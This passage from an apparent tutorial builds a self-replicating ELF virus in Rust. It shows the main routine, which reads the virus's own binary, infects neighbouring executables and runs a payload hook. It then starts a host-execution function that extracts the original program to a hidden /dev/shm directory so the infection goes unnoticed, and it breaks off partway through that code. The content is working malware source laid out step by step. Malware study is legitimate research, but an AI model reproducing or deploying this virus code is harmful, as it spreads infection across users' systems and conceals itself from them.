 With the `spread_and_infect` function completed, this virus can now infect neighboring ELF files. An infected ELF file will then try to infect its own neighbors, and the spread continues. However, it will not yet execute the host binary; we will implement `execute_host` next.

## Executing the host binary

There are two scenarios here. The original virus binary does not have a host, so this function should be skipped in that case. Otherwise, there is a host which can be extracted and ran. Note that the same will apply to `virus_main`.

It's also important to consider the scenario where multiple infected binaries are run at the same time. For example, one infected program may be in a loop, when another infected program is run. To avoid conflicts when this happens, hosts should be extracted to their own unique paths - this sample makes use of the infected binary's name for this. 

`execute_host` is passed the following arguments:
- `name`: the name of the infected binary
- `contents`: the ELF contents of the host
- `args`: the CLI args to forward to the host minus the (infected) program name

```rust
/// Code that is executed when an infected file is ran
fn virus_main() {}

/// Extracts and execute the host code
fn execute_host(name: &String, contents: &[u8], args: &Vec<String>) {}

fn main() {
    let args: Vec<String> = env::args().collect();
    let my_name = &args[0];
    if let Ok(my_code) = fs::read(my_name) {
        // Spread and infect neighboring ELFs
        spread_and_infect(".", &my_code[..VIRUS_SIZE]);

        // Run the virus if there is a host attached
        if my_code.len() > VIRUS_SIZE {
            virus_main();
            execute_host(&my_name, &my_code[VIRUS_SIZE..], &args[1..]);
        }
    }
}
```

`execute_host` simply creates a new file, writes the host binary, sets permissions and executes. This way, the host's original behavior is replicated. The `BASE_PATH` below is set in `/dev/shm` to avoid actual writes to disk (instead the file will live in memory). Additionally, the file is cleaned up after execution. 

```rust
use std::process::Command;
use std::os::unix::fs::PermissionsExt;

const BASE_DIR: &str = "/dev/shm/.ferris_first/";

/// Extracts and execute the host code
fn execute_host(name: &String, contents: &[u8], args: &[String]) {
    // Will not fail since we know name is a valid path
    let canon = fs::canonicalize(name).unwrap();
    let mut path = PathBuf::from(BASE_DIR);
    path.push(canon.strip_prefix("/").unwrap());
    let dir = path.parent().unwrap();
    let perms = fs::Permissions::from_mode(0o700);
    
    // Create parent directory, file, and set permissions
    if let Err(_) = fs::create_dir_all(dir) { return; }
    if let Err(_) = fs::write(&path, &contents) { return; }    
```
